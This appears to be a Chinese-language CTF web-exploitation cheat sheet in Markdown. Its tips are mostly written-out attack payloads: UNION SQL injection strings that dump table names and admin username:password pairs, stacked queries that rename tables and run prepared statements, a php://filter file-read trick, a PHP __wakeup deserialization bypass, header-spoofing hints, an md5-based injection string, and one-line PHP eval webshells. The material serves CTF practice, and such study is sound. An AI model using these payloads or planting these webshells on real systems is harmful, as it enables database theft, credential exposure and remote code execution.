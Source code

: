 * web题目，flag文件一般认为在根目录，web服务文件在／var/www/html/目录。

* 在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符.

* 常规注入

  ```shell
  #爆出所有库名
  ?id=0 union select 1,group_concat(distinct table_schema) from information_schema.columns
  #爆出数据库news的所有表名
  ?id=0 union select 1,group_concat(distinct table_name) from information_schema.columns where table_schema = 'news'
  #爆出表admin的所有列
  ?id=0 union select 1,group_concat(distinct column_name) from information_schema.columns where table_name = 'admin'
  #查username和password，中间用:隔开
  ?id=0 union select 1,group_concat(username,0x3a,password) from admin
  ```

* 数字注入

  hack world 1

* sql注入 尝试show tables；or；预处理语句；1' or 1=1;# 好用的语句。

  union 的用法值得研究一下，以及其他常用的注入手法。

  ```sql
  0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#

  char(115,101,108,101,99,116)<----->'select'

  1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#

  ```

* web PHP filter 显示后台文件

  ```php
  YOUR_URL?file=php://filter/convert.base64-encode/resource=flag.php
  ```

* PHP

  ```php
  __wakeup()方法绕过
  作用：
  与__sleep()函数相反，__sleep()函数，是在序序列化时被自动调用。__wakeup()函数，在反序列化时，被自动调用。
  绕过：
  当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行。
  所以在上面name后面的2表示有2个属性，我们改成3之后他会绕过__wakeup()
    
  <?php
  class Name
  {
      private $username = 'admin';
      private $password = '100';
  }
  $a = new Name();
  echo serialize($a);
  #进行url编码，防止%00对应的不可打印字符在复制时丢失
  echo urlencode(serialize($a));
  #未编码的情况
  //O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}
  //Name后面的2在链接中要改成3
  ?>
  ```

* search by python 

  开源项目 dirsearch

* url

  ```
  +    URL 中+号表示空格                                 %2B  
  空格 URL中的空格可以用+号或者编码           %20
  /   分隔目录和子目录                                     %2F    
  ?    分隔实际的URL和参数                             %3F    
  %    指定特殊字符                                          %25    
  #    表示书签                                                  %23    
  &    URL 中指定的参数间的分隔符                  %26    
  =    URL 中指定参数的值                                %3D

  $IFS$1可以代替空格
  ```

* 伪造headers

  ```shell
  Referer 伪造来自哪里
  X-Forwarded-For 伪造IP
  User-Agent 伪造浏览器
  ```

* webshell

  ```php
  <?php @eval($_POST[cmd]);?>
  <script language='php'>eval($_POST['shell']);</script>
  ```

* md5 注入

  ```
  ffifdyop 这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，这个字符串前几位刚好是 ' or '6
  ```

  ​

  ​